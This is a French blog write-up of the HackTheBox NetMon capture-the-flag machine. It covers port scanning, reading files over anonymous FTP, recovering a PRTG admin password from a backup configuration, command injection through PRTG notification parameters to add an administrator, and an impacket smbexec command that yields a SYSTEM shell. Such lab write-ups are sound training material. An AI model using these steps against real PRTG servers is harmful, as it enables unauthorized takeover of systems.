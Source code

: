 ```yaml
---
title: Solution du CTF NetMon de HackTheBox
tags: [CTF, HackTheBox]
---
```


RealPain
--------

*NetMon* est un CTF facile (20 points seulement) basé sur Windows et proposé sur *HackTheBox*.  

Une partie de plaisir me direz-vous ? Le CTF était effectivement super facile mais entre les mots de passes réinitialisés en permanence, les resets intempestifs de la machine et les scripts kiddies qui lancent des exploits sans lire la moindre description ce CTF avait tout de l'enfer :p  

Free Flag
---------

On lance un masscan qui nous trouve les classiques ports Windows ainsi qu'un serveur FTP :  

```plain
$ sudo masscan -e tun0 --rate 1000 -p1-65535 10.10.10.152

Starting masscan 1.0.4 (http://bit.ly/14GZzcT)
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 49675/tcp on 10.10.10.152                                 
Discovered open port 49664/tcp on 10.10.10.152                                 
Discovered open port 139/tcp on 10.10.10.152                                   
Discovered open port 21/tcp on 10.10.10.152                                    
Discovered open port 49665/tcp on 10.10.10.152                                 
Discovered open port 49669/tcp on 10.10.10.152                                 
Discovered open port 5985/tcp on 10.10.10.152                                  
Discovered open port 135/tcp on 10.10.10.152                                   
Discovered open port 49666/tcp on 10.10.10.152                                 
Discovered open port 49671/tcp on 10.10.10.152                                 
Discovered open port 47001/tcp on 10.10.10.152
```

Le port 80 est lui aussi ouvert même s'il ne l'était pas lors du scan (merci les skidz !)  

On se connecte en FTP avec le user *anonymous* et on se rend compte que le serveur nous livre son *C:* en lecture seule (les droits semblent être l'équivalent d'un compte *Invité* cependant).  

C'est suffisant pour lire le flag présent dans *c:\users\public\desktop\user.txt* (dd58ce6--- snip ---8d9255a5).  

PRTGWUT?
--------

En explorant le disque on voit différents fichiers en relation avec PRTG, comme *c:\windows\restart.bat* :  

```plain
net stop PRTGCoreService
copy "c:\Windows\PRTG Configuration.dat" "C:\ProgramData\Paessler\PRTG Network Monitor"
net start PRTGCoreService
```

Ce fichier *.dat* est en réalité un fichier XML contenant la configuration de [PRTG](https://www.paessler.com/prtg). PRTG est un logiciel de monitoring assez poussé. On y défini des règles de surveillance et si quelque chose tourne mal cela provoque une notification (génération d'un rapport, envoi d'un email, exécution d'un programme, etc).  

Le fichier de configuration semble contenir des entrées correspondant à des mots de passe mais ces entrées encodées en base64 ont été visiblement préalablement chiffrées.  

Toutefois en fouillant sur Internet j'ai trouvé [ce post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) sur *Reddit* faisait part d'un bug de PRTG ayant provoqué à un moment le stockage en clair des mots de passe.  

Et effectivement j'ai trouvé sur le disque le fichier *PRTG Configuration.old.bak* qui lui contient un mot de passe en commentaire :  

```html
<dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
</dbpassword>
```

On s'empresse de tester ce mot de passe et il ne fonctionne pas... On essaye *PrTg@dmin2019*... bingo ! Cela nous ouvre les portes de l'interface web de PRTG en écoute sur le port 80.  

Si le service était aussi souvent indisponible c'est que certains participants ont du chercher PRTG via *searchsploit* ou autre et on eu le résultat suivant :  

```plain
$ searchsploit prtg
------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                          |  Path
                                                                        | (/usr/share/exploitdb/)
------------------------------------------------------------------------ ----------------------------------------
PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)| exploits/windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting                 | exploits/java/webapps/34108.txt
------------------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result
```

Puis ils se sont empressés d'exécuter le code alors qu'il y a bien mentionné *Denial of Service* sur la gauche et *dos* dans le path X'D...  

Quoiqu'il en soit l'objectif est de créer une notification via le menu *Setup*. On choisit bien sûr une action de type exécution de commande.  

Seulement deux programmes sont proposés à l'exécution : un script bat que voici :  

```plain
REM Demo 'BAT' Notification for Paessler Network Monitor
REM Writes current Date/Time into a File
REM
REM How to use it:
REM
REM Create a exe-notification on PRTG, select 'Demo Exe Notifcation - OutFile.bat' as program,
REM The Parametersection consists of one parameter:
REM
REM - Filename
REM
REM e.g.
REM
REM         "C:\temp\test.txt"
REM
REM Note that the directory specified must exist.
REM Adapt Errorhandling to your needs.
REM This script comes without warranty or support.

Echo  %DATE% %TIME% >%1%
```

ou sa version *Powershell* que voici :  

```plain
if ($Args.Count -eq 0) {

  #No Arguments. Filename must be specified.

  exit 1;
 }elseif ($Args.Count -eq 1){

  $Path = split-path $Args[0];

  if (Test-Path $Path)
  {
    $Text = Get-Date;
    $Text | out-File $Args[0];
    exit 0;

  }else
  {
    # Directory does not exist.
    exit 2;
  }
}
```

L'injection se fait alors dans les paramètres que l'on passe au script choisit. Je pensais au début que le problème était lié à l'absence de guillemets ou apostrophes autour de *%1%* dans le batch mais en réalité les paramètres permettent d'injection directement ce que l'on veut.  

D'ailleurs on voit [au numéro 7 de cet article de la KB de PRTG](https://kb.paessler.com/en/topic/2543-how-can-i-execute-a-batch-file-as-notification) que PRTG conseillent eux-même d'encapsuler les paramètres entre double ou simple quotes à cet endroit... ça laisse supposer beaucoup de choses :D  

J'ai pu exploiter cela tout seul mais j'ai découvert au moment de l'écriture du présent article qu'il existe un blog traitant [de cette faille d'exécution de commande dans PRTG](https://www.codewatch.org/blog/?p=453).  

On pouvait alors créer un compte administrateur sur la machine de cette façon :  

![HackTheBox NetMon CTF PRTG notification command execution vulnerability](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/netmon_prtg_notif.png)

Comme le montre l'infobulle, au moment de la création de la notification il faut laisser vide les identifiants si on veut que la tache soit exécutée avec les droits du démon PRTG (qui tourne en SYSTEM).  

Quand on enregistre la notification, PRTG re-renseigne ces champs mais j'ai remarqué qu'au moins si un ~~enfoiré~~ impondérable change le mot de passe du compte *prtgadmin*, il suffit de re-supprimer le mot de passe dans la notification pour que celle-ci refonctionne (sinon elle échoue en raison du mot de passe qui n'est plus valide).  

Finalement on peut définir notre notification parmi les notifications de base (exécutées pour tous les événements) ou spécifiquement sur un événement.  

![HackTheBox NetMon CTF PRTG devices group notification](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/netmon_prtg_devices.png)

Une fois qu'on s'est battu pour que personne n'ai supprimé / modifié la notification ou changé le mot de passe tout est ok et on peut obtenir le flag root :  

```plain
$ PYTHONPATH=. python examples/smbexec.py NETMON/devloop:Uns3cUr3@10.10.10.152
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

Finally
-------

Au moment de ces lignes 2203 participants ont eu le flag user contre 741 seulement pour le flag root... cherchez l'erreur :(

*Published June 29 2019 at 18:25*
